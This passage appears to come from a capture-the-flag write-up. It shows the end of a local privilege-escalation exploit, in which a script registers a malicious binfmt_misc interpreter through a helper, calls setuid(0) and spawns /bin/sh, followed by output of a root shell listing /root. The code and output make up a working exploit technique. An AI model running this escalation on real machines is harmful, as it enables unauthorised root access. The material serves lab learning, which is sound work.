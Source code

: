 ```bash
	{
		// remove our temporary file
		unlink("$fmtinterpr");

		// remove the unused binary format
		FILE* fmt = fopen("$mountpoint/$fmtname", "w");
		fprintf(fmt, "-1\\n");
		fclose(fmt);

		// MOTD
		setuid(0);
		uid_t uid = getuid();
		uid_t euid = geteuid();
		struct passwd *pw = getpwuid(uid);
		struct passwd *epw = getpwuid(euid);
		fprintf(stderr, "uid=%u(%s) euid=%u(%s)\\n",
			uid,
			pw->pw_name,
			euid,
			epw->pw_name);

		// welcome home
		char* sh[] = {"/bin/sh", (char*) 0};
		execvp(sh[0], sh);
		return 1;
	}
__EOF__

chmod a+x "$fmtinterpr"

binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper

exec "$target"
```

And we are root!
```
# id
uid=0(root) gid=1001(dev) groups=1001(dev),33(www-data)
# ls -la /root
total 28
drwx------  3 root root 4096 Mar 11 14:36 .
drwxr-xr-x 18 root root 4096 Mar 11 14:52 ..
lrwxrwxrwx  1 root root    9 Oct 13  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Mar 11 14:36 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root  135 Mar 11 13:22 cleanup.sh
-rw-r-----  1 root root   33 Apr 29 04:03 root.txt
```